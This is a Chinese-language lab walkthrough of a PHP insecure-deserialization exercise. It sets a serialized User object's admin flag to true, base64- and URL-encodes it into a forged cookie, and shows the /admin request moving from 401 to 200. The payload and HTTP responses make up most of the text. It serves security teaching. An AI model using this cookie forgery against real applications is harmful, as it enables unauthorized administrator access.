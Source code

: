 

要将服务器识别为用户权限为管理员，需修改User类中第二个属性"admin"的布尔值：将原始值false（对应0）更改为true（对应1）。修改后的序列化数据示例如下：

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```



修改后的反序列化数据需依次执行两步编码操作：首先对序列化字符串进行 **base64 编码**；接着对 base64 结果进行 **URL 编码**。

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3D
```



当携带未经篡改的标准 Cookie 值向服务器发起 **`/admin` 路径请求**时，服务器会返回 **HTTP 401 Unauthorized** 状态码（权限不足），证明当前身份未通过管理端鉴权。

```
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2587
```

![image-20250317112007108](./images/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20250317112007108.png)



将篡改后的 Cookie 值替换原始数据并重新请求 **`/admin`** 路径后，服务器返回**管理员专属页面**（HTTP 200），验证了通过反序列化漏洞成功将用户权限提升为管理员。

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3104
```

![image-20250317112141810](./images/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20250317112141810.png)
